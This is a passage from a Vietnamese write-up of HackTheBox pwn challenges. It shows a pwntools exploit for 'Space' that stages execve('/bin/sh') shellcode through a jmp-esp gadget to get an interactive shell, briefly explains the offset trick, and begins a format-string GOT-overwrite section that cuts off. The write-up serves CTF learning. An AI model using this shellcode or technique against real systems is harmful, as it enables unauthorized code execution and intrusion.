 shellcode_1 = asm('''
                  push eax
                  push 0x68732f2f
                  push 0x6e69622f
                  mov ebx,esp
                  mov al, 0xb
                  int 0x80
                  ''')
shellcode_2 = asm('''
                  xor edx,edx
                  xor eax,eax

                  sub esp,0x16
                  jmp esp
                  ''')
p1 = flat([
    b'\x90',
    shellcode_1,
    0x0804919f,
    shellcode_2
])
p.sendlineafter(b'>',p1)

p.interactive()`

```

- giải thích thêm là đoạn sub esp,0x16 , ta chỉ cần lưu địa chỉ ban đầu strcpy coppy qua , xong sau đó khi thực hiện xor eax,eax xong thì ta trừ với cái địa chỉ strcpy là sẽ ra offset , xong là ta sẽ biết shellcode ban đầu ở đâu để jump đến

cách khác : https://ashokgaire.github.io/posts/SpacePwn/

https://github.com/jon-brandy/hackthebox/blob/main/Categories/Pwn/Space/README.md


-------

8 . Spooky Time (fsb)
------

- 1 bài fmt điển hình 

![image](https://hackmd.io/_uploads/Hyz6wwqbJg.png)


- leak exe, libc -> ghi đè got của puts và get_shell 
- đơn giản nên sẽ kh dài dòng :v

script 

 2 cách , cách cổ điển và cách dùng pwntools luôn
```
#!/usr/bin/env python3
